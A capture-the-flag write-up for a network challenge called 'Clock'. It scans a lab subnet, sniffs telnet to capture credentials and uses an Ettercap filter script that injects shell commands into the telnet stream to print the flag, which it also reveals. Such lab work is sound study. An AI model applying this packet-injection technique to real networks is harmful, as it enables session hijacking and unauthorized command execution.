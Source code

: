 # Clock
Network/Pentest

## Challenge 

Slapping modern crypto on protocol from the 70s is a lot like pad locking a glass door...

Difficulty: medium

[clock.ovpn](clock.ovpn)

## Solution

### Setup

Install OpenVPN

	$ sudo apt-get install -y openvpn

Start OpenVPN with the given configuration

	$ sudo openvpn clock.ovpn

### Scan Hosts

Scan subnet

	$ nmap -sP 172.30.0.0/28

We have 2 hosts: `172.30.0.2` with telnet, while `172.30.0.3` has nothing.

	$ nmap -sV 172.30.0.2
	PORT     STATE    SERVICE  VERSION
	23/tcp   open     telnet   Linux telnetd
	2383/tcp filtered ms-olap4
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


	$ nmap -sV 172.30.0.3
	All 1000 scanned ports on 172.30.0.3 are closed

### Man in the middle (MITM) attack

Similar to the earlier [Calculator](../Solved/Calculator) challenge, it seems like we need to hijack the Telnet traffic.

Follow the same instructions in the [Calculator](../Solved/Calculator) challenge to launch MITM attack.

At the same time, sniff the packets using Wireshark

### Extract the data

Enter filter in wireshark to get only telnet packets

	telnet

![screenshot1.png](screenshot1.png)

Now right click any of the packets

	Follow > TCP Stream

![screenshot2.png](screenshot2.png)

We see that after entering username `alice` and password `TickTockOnTheCl0ck`. We need to solve a crypto challenge.

	alice
	TickTockOnTheCl0ck

	Ubuntu 16.04.5 LTS
	6fb0b5aaba58 login: ...alice
	Password: TickTockOnTheCl0ck

	challenge [1d868d1ffa19ae94]
	response: 68a663f6370f9979f3bfd7efae95ef7c514dcc9d5fcd357a14eb3650b935c396
	68a663f6370f9979f3bfd7efae95ef7c514dcc9d5fcd357a14eb3650b935c396
	Last login: Thu Feb 28 03:46:21 UTC 2019 from z7ast123_clock_client_1.z7ast123_clock_default on pts/0
	Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-1032-aws x86_64)

Seems like there's no way to crack the crypto... After running a few times, it looks unintelligible to me

	challenge [495bbbaf8184043b]
	response: 5de66b463557f9fe5fc43144bd9de7ec383c4c70f2dd3921a51bfaf18353f03d

	challenge [a4be3c5f15b83531]
	response: 653f433709499d4dba3d3b68343c6f0c73338eaab6acee4bf3d00066ff8523ad

	challenge [74d8aa1167402e2a]
	response: beb8e54cc38761207585cb9607f4454c8e9daafaf20f77375bd30c4f2c5352ae

# Alter the Traffic (MiTM Attack)

With that said, the descriptions mentions of the lock as the crypto, while the glass door is telnet.

***Telnet is the vulnerability and we need not break the crypto...***

> Reference: https://www.hackers-arise.com/single-post/2017/08/28/MiTM-Attack-with-Ettercap

Refer back to our sniffed traffic data. We can try to inject some commands into telnet to cat out the flag.

![screenshot2.png](screenshot2.png)

Since the date and exit commands entered by the user are non-continuous, I decided the best replacement will be to hijack `xi`. (Since `x` is an uncommon character as compared to the other commands of `d, at, e, e, it`)

Craft a simple ettercap filter script

	# hijack client packets before it is sent to server.
	if (ip.proto == TCP && ip.dst == '172.30.0.2' && tcp.dst == 23) {
	   replace("xi", "\n\nls -la;\n#");
	   msg("Hijacked A\n");
	}

Then compile it 

	$ etterfilter filter.mine -o filter.compiled

> Load it in Ettercap using: `Filters > Load a filter`

After that, continue sniffing the traffic and we see out payload is successful.

![screenshot3.png](screenshot3.png)

Now we know the flag is in .ctf_flag. Modify the filter to cat it out.

	# hijack client packets before it is sent to server.
	if (ip.proto == TCP && ip.dst == '172.30.0.2' && tcp.dst == 23) {
	   replace("xi", "\n\ncat .ctf_flag\n#");
	   msg("Hijacked B\n");
	}

![screenshot4.png](screenshot4.png)

	alice@6fb0b5aaba58:~$ cat .ctf_flag
	gigem{a032b26061c96e00e2a0b9e991f11476}
	alice@6fb0b5aaba58:~$ #

## Flag

	gigem{a032b26061c96e00e2a0b9e991f11476}
